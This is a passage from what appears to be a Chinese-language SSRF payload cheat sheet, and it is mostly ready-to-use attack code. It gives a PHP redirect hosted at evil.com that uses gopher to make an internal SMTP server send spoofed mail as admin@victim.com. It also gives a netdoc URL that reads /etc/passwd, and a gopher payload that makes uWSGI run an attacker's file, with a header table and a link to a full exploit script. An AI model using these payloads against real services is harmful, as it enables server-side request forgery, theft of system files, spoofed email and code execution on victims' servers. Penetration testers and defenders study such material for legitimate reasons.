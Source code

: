 #### Gopher SMTP - 发送邮件

```php
evil.com/redirect.php的内容:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

### Netdoc

当您的有效载荷与" "和"\r"字符斗争时，Java的包装器。

```powershell
ssrf.php?url=netdoc:///etc/passwd
```

## 利用WSGI进行SSRF攻击

使用Gopher协议进行利用，完整利用脚本可在 https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py 获取。

```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| 头部                  |           |             |
| --------------------- | --------- | ----------- |
| modifier1             | (1 字节)  | 0 (%00)     |
| datasize              | (2 字节)  | 26 (%1A%00) |
| modifier2             | (1 字节)  | 0 (%00)     |
| 变量 (UWSGI_FILE)     |           |             |
| --------------------- | --------- | ----        |
| key length            | (2 字节)  | 10          |
| key data              | (m 字节)  |             |
| value length          | (2 字节)  | 12          |
| value data            | (n 字节)  |             |
